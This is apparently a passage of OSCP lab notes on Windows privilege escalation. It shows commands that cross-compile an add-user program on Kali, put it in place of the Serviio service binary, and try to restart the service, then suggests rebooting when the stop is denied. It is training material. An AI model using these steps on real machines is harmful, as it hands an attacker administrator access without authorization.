 • Next, we’ll cross-compilethe code on our Kali machine with i686-w64-mingw32-gcc, 
using -oto specify the name of the compiled executable:

kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/137.jpg)

We can transfer it to our target and replace the original ServiioService.exe binary with our malicious copy:

C:\Users\student> move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program F
iles\Serviio\bin\ServiioService_original.exe"
 1 file(s) moved.
C:\Users\student> move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
 1 file(s) moved.
C:\Users\student> dir "C:\Program Files\Serviio\bin\"
Volume in drive C has no label.
Volume Serial Number is 56B9-BB74
Directory of C:\Program Files\Serviio\bin
01/26/2018 07:21 AM <DIR> .
01/26/2018 07:21 AM <DIR> ..
12/04/2016 08:30 PM 867 serviio.bat
01/26/2018 07:19 AM 48,373 ServiioService.exe
12/04/2016 08:30 PM 10 ServiioService.exe.vmoptions
12/04/2016 08:30 PM 413,696 ServiioService_original.exe
 4 File(s) 462,946 bytes
 2 Dir(s) 3,826,667,520 bytes free
 

In order to execute the binary, we can attempt to restart the service.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/138.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/139.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/140.jpg)

C:\Users\student> net stop Serviio
System error 5 has occurred.
Access is denied.

restart the service with rebooting it.

• Unfortunately, it seems that we do not have enough privileges to stop the Serviio service.

•  This is expected as most services are managed by administrative users.

• Since we do not have permission to manually restart the service, we must consider another approach. 

• If the service is set to “Automatic”, we may be able to restart the service by rebooting the machine.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/141.jpg)
